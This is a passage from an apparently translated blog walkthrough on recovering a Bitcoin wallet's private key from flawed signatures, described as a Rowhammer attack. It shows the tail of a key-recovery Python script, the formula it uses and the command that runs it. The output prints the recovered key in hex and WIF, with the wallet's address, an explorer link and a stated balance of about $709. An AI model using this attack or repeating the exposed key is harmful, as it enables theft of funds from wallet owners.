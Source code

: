 
print (h((((S * K) - Z) * modinv(R,N)) % N))</code></pre>



<h2>該腳本將使用以下公式計算私鑰：</h2>



<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>



<p>讓我們運行腳​​本：</p>



<pre class="wp-block-code"><code>python3 calculate.py</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-148.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1259"/></figure>



<p><code>PrivKey = 86990adfdb019df305b4d38a963c9f46a1fbeac332285d122b0e2f888de31fba</code></p>



<p>讓我們打開<strong><a href="https://cryptodeep.ru/bitaddress.html" target="_blank" rel="noreferrer noopener">bitaddress</a></strong>並檢查：</p>



<pre class="wp-block-code"><code>ADDR: 18hhdfynnojmiMmBMsrkXNFWketq4mmDHB
WIF:  L1jMLZYkKr2YoTLH9xWXS9jPMgeasnTxWmGrHBK9aMCW9ahsNDzP
HEX:  86990adfdb019df305b4d38a963c9f46a1fbeac332285d122b0e2f888de31fba</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/002-1.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1263"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://www.blockchain.com/btc/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB
</div></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><code>Приватный ключ найден!</code></p>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-150-1024x445.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1266"/><figcaption class="wp-element-caption"><strong><a href="https://www.blockchain.com/btc/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB" target="_blank" rel="noreferrer noopener"><code>www.blockchain.com/btc/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB</code></a></strong></figcaption></figure>



<p><code>BALANCE: $ 708.99</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
